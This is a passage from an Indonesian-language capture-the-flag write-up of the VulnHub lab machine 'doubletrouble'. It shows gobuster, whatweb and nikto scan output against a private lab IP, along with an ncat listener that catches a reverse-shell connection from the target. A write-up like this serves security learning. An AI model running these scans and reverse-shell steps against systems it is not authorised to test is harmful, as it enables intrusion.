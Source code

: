 Dengan begitu,

saya tahu apa yang harus saya lakukan dalam mesin ini. Let's get digging into the hacking phase!
## Directory Brute-force

```
╭─ via [vh/doubletrouble]
╰─ cat gobuster 
/uploads              (Status: 301) [Size: 316] [--> http://192.168.56.29/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.56.29/css/]
/template             (Status: 301) [Size: 317] [--> http://192.168.56.29/template/]
/images               (Status: 301) [Size: 315] [--> http://192.168.56.29/images/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.56.29/js/]
/sf                   (Status: 301) [Size: 311] [--> http://192.168.56.29/sf/]
/core                 (Status: 301) [Size: 313] [--> http://192.168.56.29/core/]
/install              (Status: 301) [Size: 316] [--> http://192.168.56.29/install/]
/secret               (Status: 301) [Size: 315] [--> http://192.168.56.29/secret/]
/backups              (Status: 301) [Size: 316] [--> http://192.168.56.29/backups/]
/batch                (Status: 301) [Size: 314] [--> http://192.168.56.29/batch/]
/server-status        (Status: 403) [Size: 278]
```
dalam directory `/install` ada hal menarik yang ingin saya jelaskan, di dalam directory tersebut ada `connection shock` yang bisa saya simpulkan kalau revshell ga perlu untuk susah payah haha.

![images](https://i.postimg.cc/WpXzxq9B/image.png)

```
╭─ via [vh/doubletrouble]
╰─ ncat -nvlp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.56.29.
Ncat: Connection from 192.168.56.29:47330.
```

## Whatweb results

```
╭─ via [vh/doubletrouble]
╰─ cat whatweb_scan 
http://192.168.56.29 [200 OK] Apache[2.4.38], Bootstrap, Cookies[qdPM8], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.56.29], JQuery[1.10.2], PasswordField[login[password]], Script[text/javascript], Title[qdPM | Login], X-UA-Compatible[IE=edge]
```
Ya, sepertinya semua di sini sudah ditampilkan oleh nmap.

## Nikto results

```
╭─ via [vh/doubletrouble]
╰─ nikto -host $victim | tee nikto_scan 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.29
+ Target Hostname:    192.168.56.29
+ Target Port:        80
+ Start Time:         2022-11-16 13:50:02 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```